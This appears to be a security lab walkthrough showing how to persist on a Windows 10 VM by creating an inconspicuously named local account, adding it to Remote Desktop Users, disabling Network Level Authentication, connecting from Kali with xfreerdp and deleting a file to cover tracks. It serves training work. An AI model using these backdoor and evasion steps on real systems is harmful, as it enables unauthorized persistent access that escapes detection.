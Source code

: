 # Persist On A Windows Machine With A Malicious User Account
Creating a malicious local account is a simple way to install a backdoor, often going unnoticed in poorly managed networks. Even if detected, it may remain due to concerns over breaking functionality. Skilled attackers may avoid giving the account admin rights, opting instead to plant a privilege escalation vulnerability for future use

## Tasks
- Create a user with an inconspicuous name that would seamlessly blend into an organization in a VM
- Initiate an RDP connection to the target system from a separate machine, utilizing the malicious account's credentials to showcase successful access
- Navigate the system's directories to emphasize the subtle nature of the malicious account's presence and the potential challenges in detection
- Generate a dummy file in a sensitive directory to simulate a security breach, demonstrating how a malicious actor might misuse this access for unauthorized file manipulation
- Show how the malicious account can be used to cover tracks, such as deleting the dummy file

## Solutions With Scripts
1. Open PowerShell as Administrator in Windows 10 VM
2. Add a user with a non-suspicious name such as `svc_network` or `backup_admin`
   ```
   net user svc_network password123 /add
   ```
3. Add the user to a specific group like "Users" and "Remote Desktop Users". Avoid giving it administrative privileges to make the account less suspicious
   ```
   net localgroup Users svc_network add
   net localgroup "Remote Desktop Users" svc_network /add
   ```
   To confirm that `svc_network` user has been added into "Remote Desktop Users" group, go to Control Panel > System and Security. Under System, click Allow remote access. A System Properties window will appear. Click Select Users... and confirm that svc_network is in the allowed list <br/>
   ![image](https://github.com/user-attachments/assets/82b445d6-d9ca-4ccb-91cd-0af5450bb15d)
5. To enable RDP (Remote Desktop Protocol) on Windows 10 VM, go to Settings > System > Remote Desktop (left panel). Turn on Enable Remote Desktop. In the Advanced settings,  uncheck the Network Level Authentication as shown below
   ![image](https://github.com/user-attachments/assets/2775be67-8ec5-46b1-842a-2b6fefe6dc84)
6. Allow RDP through Windows Firewall and ensure that Remote Desktop is checked for both private and public networks
7. To initiate an RDP connection from Kali Linux, install `xfreerdp` using the following commands
   ```
   sudo apt update
   sudo apt install freerdp2-x11
   ``` 
8. Enable the default port for RDP (3389) in Kali Linux using the each of the commands below
   ```
   sudo ufw status
   sudo ufw allow 3389/tcp
   sudo ufw reload
   sudo ufw status
   ```
9. Use the malicious account credentials (`svc_network`) to connect to Windows 10 VM via RDP
   ```
   sudo xfreerdp /u:svc_network /p:password123 /v:192.168.1.21 /dynamic-resolution /cert:ignore /sec:tls
   ```
10. To simulate a security breach, create a dummy file in a sensitive directory like C:\Program Files or C:\Windows\Temp. Run the following command
   ```
   echo "Sensitive data" > C:\Windows\Temp\dummymaliciousfile.txt
   ```
11. To cover up the tracks, delete the dummy file
   ```
   del C:\Windows\Temp\dummymaliciousfile.txt
   ```
11. Close the RDP connection by logging out of the RDP session from Kali Linux by pressing Ctrl+C to end the xfreerdp session
12. To remove the created account in Windows 10 VM, run the command in PowerShell opened with administrator privileges
    ```
    Remove-LocalUser -Name "username"
    ```


